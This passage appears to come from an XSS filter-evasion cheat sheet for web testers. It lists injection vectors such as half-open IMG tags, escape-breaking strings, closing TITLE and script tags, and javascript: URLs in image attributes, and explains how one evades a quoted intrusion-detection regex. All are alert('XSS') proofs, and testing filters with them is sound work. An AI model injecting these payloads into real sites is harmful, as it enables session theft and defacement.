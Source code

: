 ### Half Open HTML/JavaScript XSS Vector

Unlike Firefox, the IE rendering engine (Trident) doesn't add extra data to your page, but it does allow the `javascript:` directive in images. This is useful as a vector because it doesn't require a close angle bracket. This assumes there is any HTML tag below where you are injecting this XSS vector. Even though there is no close `\>` tag the tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following network intrusion detection system (NIDS) regex: `/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/` because it doesn't require the end `\>`. As a side note, this was also affective against a real world XSS filter using an open ended `<IFRAME` tag instead of an `<IMG` tag.

```html
<IMG SRC="`<javascript:alert>`('XSS')"
```

### Escaping JavaScript Escapes

If an application is written to output some user information inside of a JavaScript (like the following: `<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>`) and you want to inject your own JavaScript into it but the server side application escapes certain quotes, you can circumvent that by escaping their escape character. When this gets injected it will read `<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>` which ends up un-escaping the double quote and causing the XSS vector to fire. The XSS locator uses this method:

```js
\";alert('XSS');//
```

An alternative, if correct JSON or JavaScript escaping has been applied to the embedded data but not HTML encoding, is to finish the script block and start your own:

```js
</script><script>alert('XSS');</script>
```

### End Title Tag

This is a simple XSS vector that closes `<TITLE>` tags, which can encapsulate the malicious cross site scripting attack:

```html
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
```

#### INPUT Image

```html
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
```

#### BODY Image

```html
<BODY BACKGROUND="javascript:alert('XSS')">
```

#### IMG Dynsrc

```html
<IMG DYNSRC="javascript:alert('XSS')">
```

#### IMG Lowsrc

```html
<IMG LOWSRC="javascript:alert('XSS')">
```
